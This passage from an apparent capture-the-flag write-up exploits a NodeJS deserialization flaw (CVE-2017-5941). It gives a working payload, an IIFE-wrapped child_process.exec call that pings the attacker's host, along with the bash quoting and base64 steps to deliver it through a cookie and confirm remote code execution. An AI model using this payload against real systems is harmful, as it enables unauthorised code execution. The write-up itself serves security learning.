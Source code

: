 {% highlight none linenos %}
kali@kali:/tmp/x$ @@echo "eyJ[...]Q==" | base64 -d@@
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}

At this point, we can strongly suspect that the JSON object is being parsed or serialized and that the extracted parameter values are being put back into the page. In addition, NodeJS serializers typically serialize Javascript to JSON. As such, we could try to create a malicious JSON object which executes commands when deserialized. If there is a deserialization vulnerability, it shouldn't matter what variable names we use since the whole object is deserialized. As such, we should be able to use an arbitrary variable name rather than attempting to find a "vulnerable" existing parameter among the 4 known ones.

After trying a couple of NodeJS deserialization payloads, it can be determined that the web application is vulnerable to [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941). As such, it is possible to use the JSON object below, which creates an anonymous function and calls it immediately using an [Immediately Invoked Function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately_invoked_function_expression). The anonymous function uses the `exec` function of the `child_process` package to execute a command which pings the attacking hosts. Note that we use the `-c` flag to ensure that the host stops pinging us after 10 ICMP echo requests.

{% highlight none linenos %}
{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 10 10.10.14.11'); }()"}
{% endhighlight %}

We can base64 encode this JSON object using the command `echo '[JSON]' | base64 -w0` where `[JSON]` is the JSON object with some modifications for the inner single quote `'` characters. In bash, single quotes preserve the literal value of each character within the quotes and thus the inner single quotes can not simply be escaped using the backslash `\` character. 

A solution to this problem is to substitute the single quotes for the characters `'"'"'`. By substituting a single quote character in a string for these characters, the original string is split into three strings which bash automatically concatenates. The second of these strings is defined using double quotes and only contains a single quote character, thus "escaping" the single quote. In essence, we can base64 encode our JSON object as shown below. Note that the `-w` flag is used to prevent the `base64` command from splitting the base64 encoded string into multiple lines.

{% highlight none linenos %}
kali@kali:~$ @@JSON='{"evil":"_$$ND_FUNC$$_function (){require('"'"'child_process'"'"').exec('"'"'ping -c 10 10.10.14.11'"'"'); }()"}'@@
kali@kali:~$ @@echo $JSON@@
{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 10 10.10.14.11'); }()"}
kali@kali:~$ @@echo $JSON | base64 -w0@@
eyJldmlsIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uICgpe3JlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdwaW5nIC1jIDEwIDEwLjEwLjE0LjExJyk7IH0oKSJ9Cg==
{% endhighlight %}

Next, we start Wireshark by executing `wireshark` in a terminal and send a request to the web application with the base64 encoded JSON object as the value of the `profile` cookie. If we have code execution on the target, we should be receiving ICMP packets resulting from the ping command. As can be sen below, we receive ICMP packets from the target host, meaning that we have acheived remote code execution!

![wireshark](/assets/{{ imgDir }}/wireshark.png)

